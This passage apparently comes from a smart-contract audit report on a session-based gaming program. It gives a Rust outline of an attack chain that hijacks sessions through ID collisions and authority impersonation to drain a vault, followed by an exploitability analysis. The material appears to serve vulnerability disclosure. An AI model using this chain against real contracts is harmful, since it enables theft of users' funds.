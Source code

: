 ```typescript
        // Total extraction: 5 * session_bet * 2 = 10x original vault
    }
}
```

### Attack Sequence
```rust
// Rust implementation of attack chain
impl SessionAttacker {
    pub async fn hijack_session(&self, target_id: &str) -> Result<u64> {
        // 1. Scan for valuable targets
        let target_session = self.find_high_value_session(target_id).await?;

        // 2. Execute collision attack
        let collision_id = format!("{}_evil", target_id);
        self.create_collision_session(&collision_id, target_session.bet_amount).await?;

        // 3. Takeover authority
        self.impersonate_authority(&collision_id).await?;

        // 4. Manipulate to completion
        self.force_completion(&collision_id).await?;

        // 5. Extract maximum funds
        let extracted = self.drain_vault(&collision_id).await?;

        Ok(extracted)
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: High (all component vulnerabilities are exploitable)
**Complexity**: Medium (requires chaining multiple exploits)
**Prerequisites**:
- Knowledge of active sessions (blockchain scanning)
- Access to exposed authority keys (VUL-096)
- Understanding of session ID patterns
- Basic smart contract interaction skills

**Attack Vectors**:
- [x] **Automated session scanning** for high-value targets
- [x] **Batch hijacking** of multiple sessions
- [x] **Targeted attacks** on specific valuable games
- [x] **Opportunistic exploitation** of newly created sessions

**Success Factors**:
- Multiple independent vulnerabilities make defense difficult
- Each step uses different attack vectors
- High reward justifies medium complexity
- Can be automated for scale
